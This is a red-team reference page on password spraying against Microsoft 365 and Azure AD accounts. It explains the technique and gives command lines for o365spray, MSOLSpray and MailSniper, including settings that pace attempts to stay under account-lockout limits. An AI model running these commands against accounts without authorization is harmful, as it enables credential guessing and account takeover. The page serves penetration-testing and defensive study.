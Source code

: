 # Password Spraying

## Theory

Once a list of existing usernames is established, a password spray attack can be executed to attempt retrieving passwords for these accounts. Password spraying involves using a single password (e.g., 'Password01') or a small set of common passwords across multiple accounts.

## Practice

{% tabs %}
{% tab title="o365spray" %}
[o365spray](https://github.com/0xZDH/o365spray) (python) can be used for for password spraying as follows. It supports various methods: activesync, adfs, autodiscover, autologon, oauth2, reporting, rst

{% hint style="info" %}
The oAuth2 module can be used for federated spraying, but it should be noted that this will ONLY work when the target tenant has enabled password synchronization - otherwise authentication will always fail. The default mechanic is to default to the 'adfs' module when federation is identified.
{% endhint %}

```bash
# --spray: Password Spray Mode
# -U: Userfile
# -P: password file
# -p password
# --count: Number of password attempt per user before resetting lockout timer
# --lockout: Lockout policy's reset time (in minutes).
# -d: Target domain
# --spray-module: activesync, adfs, autodiscover, autologon, oauth2, reporting, rst

python o365spray.py --spray -U usernames.txt -p passwords.tx --count 2 --lockout 5 --domain test.com
```
{% endtab %}

{% tab title="MSOLSpray" %}
[MSOLSpray](https://github.com/dafthack/MSOLSpray) (PowerShell) can be used for for password spraying as follows.

```powershell
Invoke-MSOLSpray -UserList valid-emails.txt -Password <PASSWORD> -Verbose
```
{% endtab %}

{% tab title="MailSniper" %}
[MailSniper](https://github.com/dafthack/MailSniper) (PowerShell) can be used for for password spraying as follows

```powershell
Invoke-PasswordSprayEWS -ExchHostname outlook.office365.com -UserList valid-emails.txt -Password <PASSWORD>
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.synacktiv.com/publications/azure-ad-introduction-for-red-teamers#attacking-azure-ad" %}

